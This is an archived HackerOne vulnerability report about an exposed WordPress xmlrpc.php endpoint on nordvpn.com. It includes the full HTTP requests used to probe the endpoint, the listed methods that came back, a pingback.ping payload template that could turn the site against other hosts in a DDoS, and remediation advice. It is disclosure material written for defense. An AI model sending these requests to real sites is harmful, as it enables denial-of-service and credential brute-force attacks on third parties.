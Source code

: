 # xmlrpc.php FILE IS enable it will used for Bruteforce attack and Denial of Service(DoS)

## Report Details
- **Report ID**: 752073
- **URL**: https://hackerone.com/reports/752073
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-05T16:55:20.489Z
- **Disclosed**: 2020-01-06T01:10:44.014Z

## Reporter
- **Username**: shardulb_23
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Hi Team,

The website https://www.nordvpn.com has the xmlrpc.php file enabled and could thus be potentially used for such an attack against other victim hosts. Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS.

URL: https://nordvpn.com/xmlrpc.php

In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

Request:

POST /xmlrpc.php HTTP/1.1
Host: nordvpn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: __cfduid=d9280a0c9a8c32a348927b0f91bec9fb31575497525; locale=en; FirstSession=source%3D%28direct%29%26medium%3D%28none%29%26campaign%3Ddirect%26term%3D%26content%3D%26date%3D20191204; CurrentSession=source%3D%28direct%29%26medium%3D%28none%29%26campaign%3Ddirect%26term%3D%26content%3D%26date%3D20191205; _gcl_au=1.1.71714234.1575497526; nord_countdown=1575532291033; popups_session_pageviews=4; popups_referrer=https://nordvpn.com/; popups_session_duration=11; fontsCssCache=true; _ga=GA1.2.162223219.1575497529; _gid=GA1.2.1370226348.1575497529; _tq_id.TV-63728145-1.2f26=164e7fef07edc38e.1575497530.0.1575499872..; ReturningSession=source%3D%28direct%29%26medium%3D%28none%29%26campaign%3Ddirect%26term%3D%26content%3D%26date%3D20191205; cf_clearance=0409dcbedbc0283206e58922136848451da17d4b-1575499879-0-150
Upgrade-Insecure-Requests: 1
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

------------------------------------------------------------------------------------------------------------
Response: 

HTTP/1.1 200 OK
Date: Thu, 05 Dec 2019 16:07:53 GMT
Content-Type: text/xml; charset=UTF-8
Connection: close
CF-Ray: 5407468dafd0d5d4-BOM
CF-Cache-Status: DYNAMIC
Cache-Control: no-store, no-cache, must-revalidate
Expires: 0
Set-Cookie: locale=en; expires=Fri, 04 Dec 2020 16:07:53 GMT; path=/; domain=nordvpn.com
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Vary: Accept-Encoding
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Pragma: no-cache
X-Frame-Options: SAMEORIGIN
X-Generator: front-kr-web-2
Server: cloudflare
Content-Length: 4272

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

Notice that a successful response is received showing that the xmlrpc.php file is enabled.
Now, considering the domain https://www.nordvpn.com, the xmlrpc.php file discussed above could potentially be abused to cause a DDOS attack against a victim host. This is achieved by simply sending a request that looks like below.

POST /xmlrpc.php HTTP/1.1
Host: nordvpn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 135
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://<YOUR SERVER ></string></value>
</param>
<param>
<value><string>https://www.nordvpn.com</string></value>
</param>
</params>
</methodCall>
------------------------------------------------------------------------------------------------

Remediation:
If the XMLRPC.php file is not being used, it should be disabled and removed completely to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.

POC: Screenshots are attached 

Reference :
1) Here is the explanation of xmlrpc file enable brute force attack- https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html
2) The explanation for xmlrpc.php file will enable dos attack- https://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed-denial-of-service-attack.html

Reference Hackerone Reports: #325040 #448524 #448524

Thanks, waiting for your response.

## Impact

1)This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.

2) This method is also used for brute force attacks to stealing the admin credentials and other important credentials

## Attachments
- Nordvpn.PNG
- Capture(1).PNG
- POST_xmlrpc.PNG
